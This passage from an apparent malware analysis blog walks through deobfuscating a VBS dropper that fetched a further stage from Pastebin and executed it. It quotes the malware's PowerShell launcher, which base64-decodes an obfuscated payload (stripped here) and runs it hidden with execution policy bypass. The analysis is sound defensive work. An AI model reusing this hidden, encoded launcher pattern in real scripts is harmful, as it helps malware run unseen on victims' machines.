 The script simply tries to download the content found at a Pastebin link and then execute the fetched code using `ExecuteGlobal` function. Good news, the link was suspended and therefore, the following code cannot be executed anymore, preventing victims from infection. Defenders and Pastebin support did great work in such a short period of time (less than 18h :)). Fortunately, I was able to extract the next stage of `VBS` code (the code from Pastebin link) before removal. Let’s analyse it!

![](fetched-vbs.png)

We are dealing with some obfuscation, so it would be faster if we can find a way to print the final code (after deobfuscation, but before execution). This way, we can get a clear understanding of what’s under the hood. Some hints suggest that deobfuscated code is powershell. The plan is to write the final code to a powershell script.

```vb title="code appended to the end of obfuscated VBS"
Set fso = CreateObject("Scripting.FileSystemObject")
Set outputFile = fso.CreateTextFile("deobfuscated.ps1", True)
outputFile.WriteLine durguete
```

Once we append this code and execute the whole script, `deobfuscated.ps1` file will help us in the next stage.

## New language, old friend

It becomes clear that attacker tries to hide as much as possible by adding polimorphic code, with many layers of obfuscation. The recovered `PS1` script replaces some substrings in `$codigo` variable, decodes it in `base64` and executes the code using a classic powershell technique.

```powershell
powershell -command "$codigo = 'ZgB1DgTreG4DgTreYwB0DgTreGkDgTrebw <-- stripped --> eKQB9DgTreCDgTreDgTrefQDgTre=';$oWjuxd = [system.Text.encoding]::Unicode.GetString([system.convert]::Frombase64string( $codigo.replace('DgTre','A') ));powershell.exe -windowstyle hidden -executionpolicy bypass -Noprofile -command $OWjuxD"
```
